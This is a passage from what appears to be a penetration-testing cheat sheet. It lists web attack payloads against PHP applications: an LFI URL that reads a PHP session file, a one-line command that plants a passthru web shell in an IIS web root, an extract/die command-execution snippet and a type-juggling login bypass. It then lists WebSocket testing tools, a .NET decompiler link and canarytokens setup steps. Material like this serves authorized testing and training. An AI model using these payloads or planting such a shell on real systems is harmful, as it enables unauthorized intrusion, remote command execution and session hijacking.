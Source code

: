 LFI Read PHP session file for current sessionid

```
    http://blog.target.org/blog.php?page=/var/lib/php5/sess_th3cr1i5cm6m3dq98pb2sn9qg5
```

Create PHP backdoor/shell (windows):

```
    echo ^<?php echo passthru($_GET['cmd']); ?^> > C:\inetpub\wwwroot\s.php
```

PHP Command Execution Example

```
    Url/page.php?page=system&help=cmd

    @extract ($_REQUEST);
    @die ($page($help));
```

##### PHP Type Juggling

Bypass login authentication with PHP Type juggling by forcing a null condition in a string comparison.

Add [] after a POST parameter "?user_id[]=user22" to force a NULL (zero-like) condition when comparing a string and an array

#### Web Sockets

There are still relatively few dec ent Web Socket testing tools and most aren't very mature:

- BurpSuite - Limited options to view web socket communication, but no ability to edit or replay traffic
- ZAP Proxy - Ability to modify, replay, and fuzz web sockets, but still relatively clumsy
- [WSSiP](https://github.com/nccgroup/wssip)- WebSocket Manipulation Proxy - Application for capturing, modifying and sending custom WebSocket data from client to server and vice versa.

## Misc

Things that don't seem to fit elsewhere!

#### Decompiling .NET Binaries

http://ilspy.net/

#### Canary Tokens

Tokens consist of a unique identifier (which can be embedded in either HTTP URLs or in hostnames.) Whenever that URL is requested, or the hostname is resolved, we send a notification email to the address tied to the token. You can get one in seconds, using just your browser.

To obtain a token:

```
1. Visit http://canarytokens.org.
2. Enter your email address. (It's only used to notify you when the token is triggered, mails are not used for any other purpose.)
3. Enter a comment which describes where you're using the token. If the token is triggered in six months time, a comment will help you remember where you placed the token. Be specific (e.g. "file watch on 192.168.100.2:/repos/repo3/README.txt" or "Password lure email in user@domain.com inbox". We envisage having loads of tokens, so a good description is necessary.
4. Click "Generate Token" to obtain your token.
5. Copy the token and drop it somewhere it will be stumbled over.
```
